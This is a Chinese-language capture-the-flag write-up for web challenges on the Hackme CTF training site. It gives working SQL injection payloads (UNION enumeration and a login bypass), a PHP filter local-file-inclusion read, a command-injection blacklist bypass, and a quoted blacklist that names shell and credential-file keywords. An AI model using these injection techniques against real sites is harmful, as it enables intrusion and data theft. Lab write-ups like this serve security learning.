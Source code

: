 [Hackme CTF](htts://hackme.inndy.tw)
===
參賽者：Will
## Web
### 0x01 hide and seek
#### https://hackme.inndy.tw/
看網站原始碼並尋找 `FLAG{` 
![](https://i.imgur.com/Vm6Xy2E.png)

### 0x02 guestbook
https://hackme.inndy.tw/gb/?mod=read&id=46
<b>Payload 1:</b> 取得資料庫名 g8
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(database()),4#`
<b>Payload 2:</b> 得到資料庫表名 flag
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='g8' limit 0,1),4#`
<b>Payload 3:</b> 得到資料庫列名 flag
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='flag' limit 1,1),4#`
<b>Payload 4:</b> 拿到該題 `flag`
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select flag from flag limit 1,1),4#`

### 0x03 LFI
#### https://hackme.inndy.tw/lfi/?page=pages/index
<b>Payload 1:</b>
`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag`
base64 decode 後得到 flag.php
``` php
Can you read the flag<?php require('config.php'); ?>?
```
<b>Payload 2:</b>
`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config`
base64 decode 後得到 config.php
``` php
<?php

$flag = "FLAG{Yoooooo_LFI_g00d_2cXxsXSYP9EVLrIo}";
```

### 0x04 homepage
#### https://hackme.inndy.tw/
查看原始碼得知 [cute.js](https://hackme.inndy.tw/cute.js)
aaencode 解碼後得到 js 原始碼
在 Firefox Console 執行得到 QR Code 掃描後得到 flag
![](https://i.imgur.com/eHkN7wF.png)

### 0x05 ping
#### https://hackme.inndy.tw/ping/
有一串黑名單陣列, 發現 `sort` 沒防護到
``` php
$blacklist = [
            'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
            'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
            'passwd', 'shadow', 'root',
            'z',
            'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
            'xargs', 'PATH',
            '$0', 'proc',
            '/', '&', '|', '>', '<', ';', '"', '\'', '\\', "\n"
        ];
```
<b>Payload:</b>
`sort fl????hp`


### 0x06 scoreboard
#### https://hackme.inndy.tw/scoreboard/
<b>Payload:</b> X-Flag 就是 flag
`curl -I https://hackme.inndy.tw/scoreboard/`

### 0x07 login as admin 0
#### https://hackme.inndy.tw/login0/
過濾可以知道 `'` 會被取代成 `\\'`, 因此 `\'` 可以濾過
``` javascript
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```
<b>Payload 1:</b> 得到 guest
``` 
username = \' || 1#
password = 1
```
<b>Payload 2:</b> 得到 admin & flag
``` 
username = \' || 1 limit 1,1#
password = 1
```
